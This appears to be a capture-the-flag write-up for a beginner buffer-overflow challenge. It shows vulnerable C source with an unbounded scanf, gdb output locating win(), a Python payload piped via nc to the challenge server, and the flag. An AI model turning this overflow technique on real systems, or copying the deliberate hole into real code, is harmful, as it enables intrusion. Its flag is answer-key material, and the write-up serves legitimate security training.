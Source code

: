 # stack0 pt1

## Read the contents of flag1.txt.

Both a binary and a C source file were given.

```
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

void lose(void) {
	puts("you suck!\n");
	fflush(stdout);
	exit(0);
}

int main(void) {
	void (*fp)(); 
	char bof[64];
	
	fp = &lose;
	
	scanf("%s", bof);
	fp();
	return 0;
}

```
This challenge is almost the same as bof2.

To get the flag, ```fp``` has to be changed to the address of ```win()```; this can be found using the gdb debugger. The payload would be simply the address of win concatenated with 64 As.

```
$ gdb ./bof3
(gdb) print win
$1 = {<text variable, no debug info>} 0x8049256 <win>
```

**Solution**
```
$ python -c "print('A' * 64 + '\x56\x92\x04\x08')" > my_file
$ cat file my_file | nc ctf.hackucf.org 9002
```

**Flag**
```
flag{time_to_get_out_of_the_kiddie_pool}
```
